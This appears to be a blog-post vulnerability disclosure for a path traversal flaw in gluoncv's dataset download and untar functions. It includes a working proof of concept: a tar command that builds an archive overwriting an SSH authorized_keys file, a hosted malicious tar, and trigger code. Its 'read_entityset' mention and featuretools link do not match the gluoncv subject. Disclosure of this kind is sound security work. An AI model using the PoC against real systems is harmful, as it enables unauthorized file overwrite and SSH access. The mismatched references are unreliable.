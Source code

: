 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite in gluoncv"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite in url_data in gluoncv

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [Dataset.from_*](https://cv.gluon.ai/build/examples_auto_module/demo_auto_data.html?highlight=from_folder#image-classification) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `Dataset.from_*` function, specifically, `ImageClassification.Dataset.from_folders`, `ImageClassification.Dataset.from_csv`, `ImageClassification.Dataset.from_folder` and `ObjectDetection.Dataset.from_voc`, which can be imported easily. There are apis used to load web datasets.

These functions all call `url_data` function to download files from internet, and `url_data` downloads and extract tarball using `untar` function. 

The `url_data` function:

```
def url_data(url, path=None, overwrite=False, overwrite_folder=False, sha1_hash=None, root=None, disp_depth=1):
    fname = Path(path or URLs.path(url, c_key='archive'))
    fname.parent.mkdir(parents=True, exist_ok=True)
    fname = download(url, path=str(fname.resolve()), overwrite=overwrite, sha1_hash=sha1_hash)
    extract_root = URLs.path(url, c_key='data')
    extract_root = extract_root.parent.joinpath(extract_root.stem)
    extract_root.mkdir(parents=True, exist_ok=True)
    if fname.endswith('.zip'):
        folder = unzip(fname, root=root if root else extract_root, strict=overwrite_folder)
    elif fname.endswith('gz'):
        folder = untar(fname, root=root if root else extract_root, strict=overwrite_folder)
    else:
        raise ValueError('Unknown url data with file: {}'.format(fname))
```

The `untar` function:

```
def untar(tar_file_path, root='./', strict=False):
    """Untars files located at `tar_file_path` into parent directory specified by `root`.
    """
    root = os.path.expanduser(root)
    with tarfile.open(tar_file_path, 'r:gz') as zf:
        if strict or not os.path.exists(os.path.join(root, zf.getnames()[-1])):
            zf.extractall(root)
        folder = os.path.commonprefix(zf.getnames())
    return os.path.join(root, folder)
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file for testing: [https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar](https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar)

If anyone now downloads tar using `read_entityset` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
from gluoncv.auto.tasks import ImageClassification
train, val, test = ImageClassification.Dataset.from_folders(
    'https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack.tar',
    train='train', val='val', test='test', exts=('.jpg', '.jpeg', '.png'))
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

Tested on Google Colab: [https://colab.research.google.com/drive/1qc7qg_VPPHKVOUT-xhSygg2M7mwDdVTt?usp=sharing](https://colab.research.google.com/drive/1qc7qg_VPPHKVOUT-xhSygg2M7mwDdVTt?usp=sharing)

![poc](https://live.staticflickr.com/65535/53637853744_26b8a5fff7_h.jpg)


## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/alteryx/featuretools/blob/21d0bf0915238ba6c6bc1e958b9a91b209f88de5/featuretools/entityset/deserialize.py#L170](https://github.com/alteryx/featuretools/blob/21d0bf0915238ba6c6bc1e958b9a91b209f88de5/featuretools/entityset/deserialize.py#L170)
